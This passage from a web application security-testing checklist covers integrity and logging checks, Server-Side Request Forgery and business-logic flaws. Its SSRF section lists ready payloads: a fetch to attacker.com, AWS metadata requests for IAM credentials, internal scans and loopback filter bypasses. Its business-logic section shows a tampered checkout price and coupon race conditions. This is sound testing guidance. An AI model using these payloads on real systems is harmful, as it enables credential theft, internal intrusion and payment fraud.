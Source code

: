 **8. Software and Data Integrity Failures**

**Check for:**
- [ ] Missing integrity checks (SRI for CDN resources)
- [ ] Insecure deserialization (Java, Python pickle, PHP unserialize)
- [ ] Auto-update without signature verification
- [ ] CI/CD pipeline vulnerabilities

**9. Security Logging and Monitoring Failures**

**Test for:**
- [ ] No logging of authentication failures
- [ ] No alerting on suspicious activity
- [ ] Logs contain sensitive data (passwords, tokens)
- [ ] No audit trail for privileged actions

**10. Server-Side Request Forgery (SSRF)**

```bash
# Test URL parameters that fetch external resources
https://example.com/fetch?url=http://attacker.com
https://example.com/proxy?url=http://169.254.169.254/latest/meta-data/

# AWS metadata endpoint (SSRF to cloud)
http://169.254.169.254/latest/meta-data/iam/security-credentials/

# Internal network scan
https://example.com/fetch?url=http://127.0.0.1:22
https://example.com/fetch?url=http://192.168.1.1

# Bypass filters
http://127.0.0.1 → http://127.1 → http://[::1] → http://localhost
```

---

## 4. Advanced Testing Techniques

### Business Logic Vulnerabilities

**Race Conditions:**
```bash
# Parallel requests to exploit timing
# Example: Redeem coupon multiple times
# Tool: Turbo Intruder (Burp Suite)

# Test with:
# - Simultaneous fund transfers
# - Parallel coupon redemptions
# - Concurrent vote submissions
```

**Price Manipulation:**
```http
POST /checkout HTTP/1.1
Content-Type: application/json

{"item_id": 123, "price": 0.01, "quantity": 1}
# Try negative prices: -10
# Try zero: 0
```
